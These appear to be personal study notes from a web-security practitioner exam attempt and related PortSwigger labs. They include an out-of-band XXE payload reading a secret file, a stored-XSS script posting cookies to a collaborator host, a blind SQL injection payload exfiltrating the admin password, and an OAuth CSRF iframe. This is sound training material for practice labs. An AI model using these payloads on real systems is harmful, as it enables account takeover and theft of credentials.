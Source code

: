 # Exam Attempt 1
Both the applications had a user login page, and user can request the ability to request to forgot password
## Application 2
### Stage1 crack
Getting access to carlos user
Updating the headers while requesting the forgot user got the forgot password token to the exploit server logs.
Had the following request in the access logs
/refresh-password?temp-forgot-password-token=4t7zycsb14jvm4a300bii5ofukw0h8pr
Just used the parent url and created the end point visited it and then updated the password to abcd to remember it
### Stage2 crack
Elevating the privige to admin
There was an endpoint to update the email which was sending json data, which consist of csrf and email address, and there was information like api key, user name, and roleid being returned, roleid was 30, i send that request to intruder and included roleid in the request as well and brute force the roleid to see if i can change it, i was able to change it to 50 and that roleid was of admin.
{
  "username": "administrator",
 "csrf":"9nyIPO8cqegYrLrr5UMrkIbymQrmO6ew","email":"test@exploit-0ac500ca03556da5806adeb301b70021.exploit-server.net",
"roleid":§4§
}
tried payloads from 0-100

### stage3 crack
Reading the text of file /home/carlos/secret
There there was a page for the admin to update or add more users, and it was through an xml file, we used the following payload to get the secret text into our collab server, where the dtd was used to retrieve the file and send it to collab server

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0ac500ca03556da5806adeb301b70021.exploit-server.net/exploit.dtd"> %xxe;]>
<users>
    <user>
        <username>Example1</username>
        <email>user1@example.com</email>
    </user>
    <user>
        <username>Example2</username>
        <email>user2@example.com</email>
    </user>
</users>


## Application 2

I was not able to find much from the automated scanner, even with the manual testing, the surface to test were the following:
- forgotten password mechanism
- search button
- productid
- other data being sent by the user
Tested for different types of request smuggling attacks but there was no success.
Tested for CORS vulnerabilities by adding origin header but there was again no success.


## Next Attempt

After trying the payloads and also trying hacking techniques above try ssrf on localhost:6566
Try to inject a random cookie and see if that is being reflected anywhere, and also analyze the session cookie more
if that is giving more information
You were able to enumerate the user name through forget password mechanism, try that for password with every possible thing.

Also try clickjacking for this lab if there is a possibility
All the XSS will not be detected simply, try all possible tags with encoding if its not a straightforward exploit



## Recommended 10 labs

### Lab: Exploiting cross-site scripting to steal cookies


This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.  


Payload to use in the comment:

```
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>

```

### Lab: Blind SQL injection with out-of-band data exfiltration

Solved

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

Payload inside the cookie:

```
TrackingId=xxx'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.OASTIFY.COM/">+%25remote%3b]>'),'/l')+FROM+dual--
```


### Lab: Forced OAuth profile linking

Forced OAuth profile linking: Another way to exploit the OAuth, is to target CSRF, In the scenario we can attach our social media profile, whenever we attach it we will be provided with a code, so we will exploit that behavior, we will try to get the code and drop the request to forward the code. so that it is not used and then create an iframe for the victim to visit the outh-linking website so that admins profile is attached to our social media and then login with our social media and do the admis function. Lab: https://portswigger.net/web-security/oauth/lab-oauth-forced-oauth-profile-linking.
 While proxying traffic through Burp, click "My account". You are taken to a normal login page, but notice that there is an option to log in using your social media profile instead. For now, just log in to the blog website directly using the classic login form.
Notice that you have the option to attach your social media profile to your existing account.
Click "Attach a social profile". You are redirected to the social media website, where you should log in using your social media credentials to complete the OAuth flow. Afterwards, you will be redirected back to the blog website.
Log out and then click "My account" to go back to the login page. This time, choose the "Log in with social media" option. Observe that you are logged in instantly via your newly linked social media account.
In the proxy history, study the series of requests for attaching a social profile. In the GET /auth?client_id[...] request, observe that the redirect_uri for this functionality sends the authorization code to /oauth-linking. Importantly, notice that the request does not include a state parameter to protect against CSRF attacks.
Turn on proxy interception and select the "Attach a social profile" option again.
Go to Burp Proxy and forward any requests until you have intercepted the one for GET /oauth-linking?code=[...]. Right-click on this request and select "Copy URL".
Drop the request. This is important to ensure that the code is not used and, therefore, remains valid.
Turn off proxy interception and log out of the blog website.

Go to the exploit server and create an iframe in which the src attribute points to the URL you just copied. The result should look something like this:
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/oauth-linking?code=STOLEN-CODE"></iframe>
Now after sending this, login with social media account, you will then be able to see the admin panel
Lab: https://portswigger.net/web-security/oauth/lab-oauth-forced-oauth-profile-linking


### Lab: Brute-forcing a stay-logged-in cookie

Testing stay-logged-in cookie and then trying to guess the cookie and then changing the username with the same cookie which coinsist username + hashofpassword
